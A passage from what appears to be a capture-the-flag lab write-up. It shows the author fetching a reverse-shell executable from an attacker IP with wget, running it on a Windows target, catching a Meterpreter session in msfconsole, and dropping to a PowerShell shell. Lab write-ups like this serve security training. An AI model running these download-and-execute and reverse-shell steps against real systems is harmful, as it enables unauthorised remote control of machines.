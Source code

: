     
    
    PS C:\Utils> wget 10.10.14.6/rev.exe -outfile r.exe
    

Once it’s there, I’ll run it:

    
    
    PS C:\Utils> .\r.exe
    

It hangs there without returning, but at `msfconsole`:

    
    
    msf6 exploit(multi/handler) > run
    
    [*] Started reverse TCP handler on 10.10.14.6:4444 
    [*] Sending stage (200774 bytes) to 10.10.11.145
    [*] Meterpreter session 1 opened (10.10.14.6:4444 -> 10.10.11.145:49857) at 2022-06-07 17:39:49 +0000
    
    meterpreter >
    

#### PowerShell

Meterpreter has a PowerShell module that typically can load the .NET Common
Language Runtime (CLR) and interact with the Windows API. It’s invoked with
`load powershell`. For some reason, it fails here:

    
    
    meterpreter > load powershell
    Loading extension powershell...
    [-] Failed to load extension: No response was received to the core_loadlib request.
    

Instead, to drop to a PowerShell shell, I’ll run `shell` (which spawns a
`cmd.exe` process), and then `powershell` from there:

    
    
    meterpreter > shell
    Process 4836 created.
    Channel 1 created.
    Microsoft Windows [Version 10.0.19044.1466]
    (c) Microsoft Corporation. All rights reserved.
    
    C:\Utils>powershell
    Windows PowerShell
    Copyright (C) Microsoft Corporation. All rights reserved.
    
    Try the new cross-platform PowerShell https://aka.ms/pscore6
    
    PS C:\Utils>
    

## Execution as imonk on ATSSERVER

### Enumeration
